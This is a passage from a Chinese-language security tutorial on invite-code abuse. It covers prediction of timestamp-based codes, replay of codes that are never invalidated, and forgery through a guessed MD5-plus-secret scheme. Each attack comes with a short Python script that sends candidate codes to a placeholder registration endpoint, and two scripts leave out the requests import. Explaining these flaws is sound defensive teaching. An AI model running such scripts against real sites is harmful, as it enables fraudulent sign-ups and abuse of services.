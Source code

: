 **示例代码**：
```python
import time

def predict_invite_code(base_url):
    current_time = int(time.time())
    for i in range(10):
        predicted_code = str(current_time + i)
        response = requests.get(f"{base_url}/register?invite_code={predicted_code}")
        if response.status_code == 200:
            print(f"Predicted invite code found: {predicted_code}")
            break

predict_invite_code("https://example.com")
```

### 2.3 邀请码重放攻击
**原理**：通过重复使用已失效的邀请码进行滥用。
**利用方式**：
1. **邀请码未失效**：系统未及时将已使用的邀请码标记为失效，导致攻击者可以重复使用。
2. **邀请码未过期**：系统未设置邀请码的有效期，导致攻击者可以长期使用。

**示例代码**：
```python
def replay_invite_code(base_url, invite_code):
    for i in range(10):
        response = requests.get(f"{base_url}/register?invite_code={invite_code}")
        if response.status_code == 200:
            print(f"Replayed invite code successful: {invite_code}")
            break

replay_invite_code("https://example.com", "123456")
```

### 2.4 邀请码伪造攻击
**原理**：通过伪造邀请码进行滥用。
**利用方式**：
1. **邀请码生成算法破解**：攻击者通过逆向工程破解邀请码生成算法，生成有效的邀请码。
2. **邀请码签名伪造**：如果邀请码包含签名，攻击者可以通过伪造签名生成有效的邀请码。

**示例代码**：
```python
import hashlib

def forge_invite_code(base_url, user_id):
    secret_key = "secret_key"
    invite_code = hashlib.md5(f"{user_id}{secret_key}".encode()).hexdigest()
    response = requests.get(f"{base_url}/register?invite_code={invite_code}")
    if response.status_code == 200:
        print(f"Forged invite code successful: {invite_code}")

forge_invite_code("https://example.com", "123")
```
